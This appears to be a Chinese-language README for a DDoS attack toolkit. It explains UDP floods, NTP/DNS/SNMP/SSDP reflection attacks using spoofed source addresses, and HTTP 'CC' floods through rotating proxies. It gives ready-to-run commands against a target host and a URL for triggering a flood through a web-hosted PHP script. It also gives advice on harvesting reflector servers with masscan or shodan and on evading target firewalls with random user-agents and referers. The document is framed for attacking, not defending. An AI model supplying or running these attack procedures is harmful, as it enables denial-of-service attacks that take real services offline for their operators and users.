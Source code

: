 # 常用dddos工具集合
## 目录
* [DDOS攻击简介](#DDOS攻击简介)
* [本工具攻击方法简介](#本工具攻击方法简介)
* [本工具使用方法](#使用方法)


### 一.DDOS攻击简介

#### 根据DDOS攻击的类型，可以简单分为两类 网络层DDOS攻击 和 应用层DDOS攻击

#### 1. 网络层DDOS攻击
>常见的网络层DDoS攻击就是利用TCP/IP协议族的一些特征，控制大量的傀儡机发送合理的请求来消耗攻击目标主机的网络资源。

>常见的网络层DDoS攻击方式有：
SYN Flood、ACK Flood、Connection Flood、UDP Flood、ICMP Flood、TCP Flood、Proxy Flood， SSDP等。

#### 2. 应用层DDOS攻击
>常见的应用层DDoS攻击主要是消耗主机的CPU和内存等资源。

>常见的应用层DDoS攻击方式有：
Slowloris 攻击，Slow Attack，JavaScript DDoS，ReDoS 攻击，DNS Query Flood

### 二.本工具攻击方法简介

#### 网络层UDP攻击(/udp/)：
>原理：发送海量数据包，顷刻占满目标系统的全部带宽，正常请求被堵在门外，拒绝服务的目的达成。
1. UDP直接攻击（/udp/local/udpflood.php ）
  - 优点：操作简单，直接在本机上即可发动攻击
  - 缺点：由于本机发送大量UDP请求可能会被服务器商警告，或者在路由上被丢弃，且大型站点的机房都有防御，UDP直接攻击流量峰值无法突破大型站点的防御。正常应用情况下，UDP 包双向流量会基本相等，因此在消耗对方资源的时候也在消耗自己的资源。
2. UDP反射型攻击（/udp/proxy/Saddam.py）
>原理：在 UDP 协议中正常情况下客户端发送请求包到服务端，服务端返回响应包到客户端，但是 UDP 协议是面向无连接的，所以客户端发送请求包的源 IP 很容易进行伪造，当把源 IP 修改为受害者的 IP，最终服务端返回的响应包就会返回到受害者的IP。这样只需要以较小的伪造源地址的查询流量就可以制造出几十甚至上百倍的应答流量发送至目标。
原理图如下：
udp.png
  - 优点：可以用较小的流量达到较大的攻击流量，且流量来自世界各地的真实服务器，难以被拦截。
  - 缺点：操作复杂，需收集大量IP，且需要机房允许发送伪造的数据包（大部分正规机房不允许发送伪造的UDP数据包）

#### 应用层CC攻击(/cc/):
> 原理：对一些消耗资源较大的应用页面不断发起正常的请求，以达到消耗服务器端资源的目的。在Web应用中，查询数据库、读写硬盘文件等操作，相对都会消耗比较多的资源。
1. CC直接攻击（/cc/local.py）
  - 优点：操作便捷，使用本机运行程序攻击
  - 缺点：单IP请求太频繁容易被目标站防火墙拦截禁封IP
2. CC代理攻击（/cc/proxy-txt.py）
  - 优点：使用大量代理IP攻击，不易被拦截
  - 缺点：需要购买大量代理IP

### 三.使用方法
- 如果要攻击的站点使用的是独立IP，可以直接输入IP地址
- 如果要攻击的站点为某个网址，建议修改/etc/hosts，绑定要攻击域名与IP，减少DNS查询次数

#### 网络层UDP攻击(/udp/)
> php版本 > 5.4
1. UDP直接攻击(/udp/local/)

    1.访问网址调用

    `http://127.0.0.1/udpflood-web.php?pass=1f3870be274f6c49b3e31a0c6728957f&host=www.test.com&port=80&time=99999&packet=9999&bytes=999`

    2.运行PHP文件调用

    `php ./udpflood.php  host=www.test.com port=80 time=99999 packet=9999 bytes=999`

2. UDP反射攻击(/udp/proxy/)
    > python版本2.7

    1.收集IP地址

        使用工具（如：masscan或者shodan）查找出大量开启NTP服务123端口的服务器IP，保存到ntp.txt文件
    2.填写参数运行python程序

        `python Saddam.py www.test.com benchmark -n ntp.txt `
        
    > 此处以ntp攻击为例，其他反射攻击收集不同端口IP地址并修改 -n ntp.txt 即可，(-d dns反射攻击，-s snmp反射攻击， -p ssdp放射攻击)

#### 应用层CC攻击(/cc/)
> python版本3.6
1. CC直接攻击(cc/local.py)
```sh
//get请求攻击 
python3 local-post.py -v http://www.test.com/search.php?searchword=
//post请求攻击 
python3 local-post.py -v http://www.test.com/search.php -p searchword
```

2. CC代理攻击(cc/proxy/)
```sh
//随机调用files/proxy.txt代理请求攻击 
python3 proxy-txt.py -v http://www.test.com/search.php?keyword=
//使用luminati代理接口
python3 proxy-lum.py -v http://www.test.com/search.php?keyword=
//使用abuyun代理接口
python3 proxy-lum.py -v http://www.test.com/search.php?keyword=
```

##### 参数说明
- v 必选 待攻击网址或ip地址，例： www.test.com
- t 可选 请求超时时间，默认为10秒， 例：20
- p 可选 启用post请求方式，例： searchword

##### files目录文件说明
- proxy.txt 随机代理，一行一个
- user-agents.txt 随机请求头，一行一个，防止目标站防火墙特征识别
- referers.txt 来路域名，一行一个
- keywords.txt 搜索关键词，一行一个
